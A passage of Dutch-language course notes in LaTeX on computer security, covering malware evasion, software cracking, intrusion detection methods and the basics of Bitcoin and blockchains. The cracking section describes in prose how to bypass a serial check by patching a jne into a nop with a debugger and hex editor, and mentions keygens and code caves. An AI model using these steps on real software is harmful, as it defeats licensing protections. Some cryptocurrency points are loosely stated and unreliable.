		\item Wanneer een virusscanner de malware wil scannen, probeert de malware dit tegen te houden of een 'mooie' versie van de malware te geven.
		\item De code van de malware kan geëncrypteerd zijn.
	\end{itemize}

	\subsection{Software cracking}
	= het aanpassen van software zodat toegangscontroles worden verwijderd.

	Eenvoudige cracks kunnen uitgevoerd worden met behulp van een aantal tools: W32Dasm (een disassembler), Hex Workshop (een hex editor) en OllyDBG (een debugger). Je kan eenvoudig een breakpoint zetten in OllyDBG bij een bepaalde opcode, en de lijn zoeken die bijvoorbeeld de popup toont om een serial nummer in te geven. Vaak staat dit bij een $cmp$ statement: indien de gebruiker nog niet geauthenticeerd is, vraag naar de authenticatiecode. De $jne$ die daarop volgt kan gewoonweg verwijderd worden en zal het systeem doen alsof de gebruiker wel geauthenticeerd is. In een hex-editor kan bijvoorbeeld het $jne$ statement vervangen worden door een $nop$ statement, zodat elke authenticatiecode nu geldig is.

	Een \underline{key generator} kan legale sleutels aanmaken. De basis voor illegale keygenerators ligt aan de legale keygenerators, die vaak gebruikt worden in bedrijfscontext, zodat het bedrijf zelf sleutels kan maken en niet elke maal aan bijvoorbeeld Microsoft moet vragen voor nieuwe Office sleutels.	

	Een \underline{authenticerende server} kan gesimuleerd worden door een eigen server.

	De code kan ook \underline{geïnjecteerd worden}. Men gaat op zoek naar zogenaamde 'code caves', dit zijn ongebruikte geheugenlocaties in de executable. Deze lege geheugenlocaties kan dan eender welke instructies bevatten.

	\chapter{Intrusiedetectie}
	= moeilijk te definieren.
	\begin{itemize}
		\item Iemand die SSH gebruikt om in te loggen op een systeem? Wat met het root account?
		\item Iemand die poorten scant?
		\item Iemand die iets probeert te downloaden van de server?
	\end{itemize}

	Om aan intrusiedetectie te doen, moet er een \textbf{IDS (Intrusiedetectiesysteem)} zijn. Een goed IDS kan interne en externe hackpogingen monitoren, maar het dient niet om aanvallen tegen te houden.

	\begin{table}[ht]
		\begin{tabular}{l c l}
			\underline{Attack detection} & vs & \underline{Intrustion detection} \\
			De IDS staat \emph{buiten} de beveiligingsomgeving. & & De IDS staat \emph{binnen} de beveiligingsomgeving. \\
			Genereert veel overbodige alerts & & Detecteert interne hacking.
		\end{tabular}
	\end{table}

	Het \underline{doel} van intrusiedetectie is:
	\begin{itemize}
		\item Een aanval detecteren \emph{tijdens} of \emph{na} de aanval (bijvoorbeeld, vanaf dat iemand poorten begint te scannen).
		\item Kan geen aanval detecteren \emph{voor} het gaat gebeuren.
	\end{itemize}

	Intrusiedetectie gaat ervan uit dat \underline{aanvallers een ander gedrag hebben dan legitieme gebruikers}. Er bestaan wel handelingen die zowel aanvallers als normale gebruikers kunnen uitvoeren, zodat er hierdoor een kleine overlap bestaat. Dit heeft als bijkomend effect dat er false negatives (een aanval doorlaten) of false positives (denken dat een legitieme gebruiker een aanvaller is) zijn.

	\section{Audit records}
	= bevat logs over de handelingen die gebruikers uitvoeren op het interne netwerk. Elke log bevat een user ID om de juiste gebruiker te traceren.

	Er kan gebruikt gemaakt worden van de \underline{native, door het besturingssysteem ondersteunde} loggingsysteem. Dit heeft als voordeel dat er geen extra componenten moeten geïnstalleerd worden, maar het grote nadeel is dat de structuur van de logberichten meestal niet aan de gewenste vorm voldoen. Men gebruikt een \underline{speciaal, op maat gemaakt systeem}, die enkel nuttige informatie (probe points) bijhoudt voor het IDS en ook nog systeemonafhankelijk is. 

	Voorbeelden van \underline{nuttige informatie in een audit record} is:
	\begin{itemize}
		\item het onderwerp, die de actie uitvoert,
		\item het object, waarop de actie uitgevoerd is,
		\item de uitgevoerde actie,
		\item de timestamp.
	\end{itemize}

	Met deze informatie kunnen al heel wat 'rare' gebeurtenissen opgespoord worden:
	\begin{itemize}
		\item Gebruikers die inloggen op niet-contionele tijdstippen.
		\item Accounts waarop veel mislukte inlogpogingen zijn uitgevoerd.
		\item Onverklaarde reboots/tijdswijzigingen
		\item ...
	\end{itemize}

	Er zijn twee manieren om audit informatie te verzamelen: \underline{host based} en \underline{network based}.
	\begin{itemize}
		\item \textbf{Host Based}: De informatie kan op het besturingssysteem zelf (via softwarelogs, systeemlogs) gegenereerd worden. De informatie is vrij compact, maar systeemspecifiek. 
		
		\underline{Voordelen}: Hoge kwaliteit van de informatie.

		\underline{Nadelen}: Systeemspecifiek, en extra overhead op de toestellen zelf. Ook als een toestel gehackt wordt, kunnen de logs die gegenereerd worden vanuit dat toestel niet meer vertrouwd zijn.

		\item \textbf{Network Based}: In deze versie wordt de informatie verzameld van een hub of switch. Het heeft als doel om netwerkanalyse te gebruiken om aanvallen te detecteren.
		
		\underline{Voordelen}: Geen performantieimpact, geen overhead op de toestellen zelf, besturingssysteemonafhankelijk. Deze vorm kan informatie bieden dat Host Based niet kan, namelijk gefragmenteerde pakketten en poort scanning.

		\underline{Nadelen}: Pakketten kunnen verloren geraken op het netwerk of ze kunnen niet terug samengesteld worden. Besturingssysteemafhankelijke protocollen kunnen mogelijks niet geanalyseerd worden. Geëncrypteerde informatie is evenmin leesbaar. 

	\end{itemize}

	\section{Praktische benaderingen}
	\begin{itemize}
		\item[\info] \textbf{Statistische benadering:} Proberen om normaal gedrag te definieren, zodat een afwijking op dit gedrag gezien wordt als een aanval.

		Om normaal gedrag te definieren, moet er eerst genoeg audit logs zijn. Er zijn hier \underline{drie methoden}:
		\begin{enumerate}
			\item \textbf{Treshold detection:} Een bepaalde actie gedurende een interval kan een bepaald aantal keer voorkomen. Grote afwijkingen van dit aantal geeft aanleiding tot een aanval. 
			\item \textbf{Profile based:} Voor elke gebruiker kan een profiel gemaakt worden, die zijn typische acties beschrijft. Van alle profielen tesamen kan een gemiddeld profiel gemaakt worden, die dan gebruikt wordt als de definitie van normaal gedrag.
			\item \textbf{Anomaly detection:} Automatisch analyseren van het netwerk. Er worden statistische en heuristische maatregelen genomen bij events, en bepalen of deze matchen bij het normaal model. Dit model kan opgebouwd worden uit statistische berekeningen, neurale netwerken en state change analyse. Het voordeel van deze methode is dat het alle aanvallen kan herkennen, en dat het automatisch zal aanpassen.
		\end{enumerate}
		\item[\info] \textbf{Rolgebaseerde benadering:} Proberen om abnormaal gedrag te definieren. Op die manier kunnen welgekende aanvallen direct gedetecteerd worden.

		Ook hier zijn er \underline{twee methoden}:
		\begin{enumerate}
			\item \textbf{Misuse detection:} Bij deze methode wordt er gespecificeerd wat een aanval is. De audit logs worden gecontroleerd op basis van de regels zoals: 
			\begin{itemize}
				\item Gebruikers mogen geen bestanden lezen van een andere gebruiker.
				\item Gebruikers mogen geen systeembestanden kopiëren.
				\item Ping flooding, IP Frag attack, ...
			\end{itemize}

			Deze methode heeft veel weg van een antivirussysteem, die ook werkt met regels, die constant up to date moeten zijn, maar gemakkelijk te misleiden zijn. Het is wel eenvoudig te implementeren.
			\item \textbf{Burglar alarms:} 
		\end{enumerate}

	\end{itemize}

	\chapter{Future evolutions}
	\section{Cryptocurrency en blockchains}
	\begin{itemize}
		\item[\info] \textbf{Virtuele currency:} virtueel geld dat binnen een bepaalde virtuele wereld gebruikt kan worden: facebook credits, MMORPG geld, ...
		\item[\info] \textbf{Cryptocurrency:} Maakt gebruik van cryptografische methoden om enerzijds veilige transacties uit te voeren en anderzijds nieuwe currency te genereren. Typisch is dit een gedecentraliseerd systeem.
		\item[\info] Elke virtuele currency moet volgende \underline{uitdagingen} aangaan:
		\begin{itemize}
			\item Hoe wordt het aangemaakt.
			\item Hoe wordt inflatie voorkomen (Hoe voorkom je dat er één iemand is die heel veel coins kan maken?)
			\item Zijn de geproduceerde coins geldig? (proof-of-work)
			\item Hoe voorkom je dat één bepaalde coin meerdere malen gebruikt kan worden (bv zelfde briefje van $5$ euro tweemaal gebruiken zodat je $10$ euro hebt.) 
		\end{itemize}
		\item[\info] Elke virtuele currency moet ook aan bepaalde \underline{security eisen} voldoen:
		\begin{itemize}
			\item[\info] \textbf{Authenticatie:} Nagaan of de juiste persoon betaald wordt, en dat de uitbetaalde waarde geldig is.
			\item[\info] \textbf{Integriteit:} Voorkomen dat een coin tweemaal gebruikt wordt tijdens een transactie. Het omkeren van transacties moet ook onmogelijk zijn.
			\item[\info] \textbf{Beschikbaarheid:} Kan een transactie op eender welk moment uitgevoerd worden?
		\end{itemize}
	\end{itemize}

	\underline{Bitcoin is cryptocurrency}
	\begin{itemize}
		\item[\info] Totaal aantal bitcoins is 21 miljoen.
		\item[\info] Maakt gebruik van een proof-of-work systeem. Dit wil zeggen dat elke coin een bepaalde identificatie krijgt, die een koper moet tonen aan de verkoper. Bitcoin gebruikt hiervoor cryptografische hashes.
		\item[\info] Geen centrale bank.
		\item[\info] Een gebruiker die een \underline{transactie} uitvoerd, moet eerst een digitale handtekening gebaseerd op de vorige transactie, en de nieuwe eigenaar zijn publieke sleutel, toevoegen aan het einde van de coins die gespendeerd zullen worden. Op die manier kan iedereen de geschiedenis van een bepaalde coin nagaan.
	\end{itemize}

	\underline{Blockchain is een verzameling van transacties}
	\begin{itemize}
		\item[\info] Een block is een verzameling van transacties. Elke block bevat ook een cryptografische relatie naar het vorige block.
		\item[\info] Blokken zijn aan elkaar gelinkt (cfr. gelinkte lijst) door middel van een proof-of-work berekening, die vaak bestaat uit een hashfunctie met een moeilijk te vinden nonce. De verificatie is eenvoudig, maar de proof-of-work niet.
		\item[\info] De proof-of-work werkt als volgt: zoek een nonce zodat H(vorige hash, nonce, T) $<$ E, met T de lijst van transacties van het block en E een moeilijkheidsvariabele, gespecificeerd door het netwerk. Deze E wordt automatisch aangepast zodat een niew block om de 10 minuten gevonden kan worden.
	\end{itemize}

	\underline{Elke node op een bitcoin netwerk maakt deel uit van het volgende algoritme}
	\begin{itemize}
		\item[\info] Een nieuwe transactie wordt gebroadcast naar alle nodes.
		\item[\info] Elke node verzamelt deze transacties in een block.
		\item[\info] Elke node werkt de proof-of-work uit voor zijn block.
		\item[\info] De node die het eerst klaar is, broadcast het block naar alle nodes.
		\item[\info] Elke node controleert of dat alle transacties in dat block geldig zijn. Minimum 50\% van de beschikbare nodes moeten akkoord gaan.
	\end{itemize}


\end{document}